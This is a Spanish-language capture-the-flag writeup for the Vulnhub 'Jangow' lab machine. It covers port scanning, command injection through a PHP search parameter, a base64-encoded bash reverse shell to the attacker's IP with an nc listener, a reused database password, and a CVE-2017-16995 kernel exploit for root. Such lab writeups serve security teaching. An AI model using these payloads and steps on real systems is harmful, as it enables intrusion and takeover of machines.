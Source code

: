 ```yaml
---
title: Vulnhub - Jangow
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'RCE', 'Kernel Exploitation (CVE-2017-16995)']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Jangow/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Jangow Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **RCE, Kernel Exploitation (CVE-2017-16995)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Jangow/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/Jangow/02-versions.png)


c. Al inspeccionar le código fuente de la página llegamos a la ruta **http://<IP>/site/busque.php?buscar=**, en la cual podemos ejecutar comandos

![](/assets/images/Vulnhub/Easy/Jangow/03-command.png)


d. Existen varias formas de establecer una **reverse shell**, en este caso, **encodearemos el payload en base64, lo decodeamos y lo depositamos en un archivo**, para posteriormente, ejecutarlo.

🆚 Nos ponemos en escucha previamente con **nc**: **`nc -lvnp 443`**

* **Payload**

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/<Nuestra IP>/443 0>&1
    ```

* Lo encodeamos en base64 **base64 -w 0 payload**
* Urlencodemos el payload **echo -n "echo -n '<Payload en Base64>'|base64 -d>backup.sh" | jq -sRr @uri** y lo ejecutamos enviándolo con Burp Suite

![](/assets/images/Vulnhub/Easy/Jangow/04-payload.png)

* Por último, ejecutamos el script **bash%20backup.sh**

```
www-data@jangow01:/var/www/html/site/wordpress$
```

### Escalada de Privilegios 💹

a. Encontramos un archivo **config.php** con credenciales y existe otro usuario **jangow01**

```php
www-data@jangow01:/var/www/html/site/wordpress$ cat config.php 
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
<SNIP>
```

b. Nos convertimos en el usuario jangow01 con la contraseña **abygurl69**

```bash
www-data@jangow01:/var/www/html/site/wordpress$ su jangow01
Password: abygurl69
jangow01@jangow01:/var/www/html/site/wordpress$
```

c. Al listar la versión de kernel, vemos que es antiguo y es [vulnerable](https://github.com/rlarabee/exploits/blob/master/cve-2017-16995/cve-2017-16995.c), copiamos el script y lo copiamos en una archivo en **`/tmp`**, lo compilamos con **`gcc exploit.c exploit`**, le damos permisos de ejecución **`chmod +x exploit`**, lo ejecutamos y seremos root

```bash
root@jangow01:/tmp# cat /root/proof.txt
<SNIP>
da39a3ee5e6b4b0d3255bfef95601890afd80709
```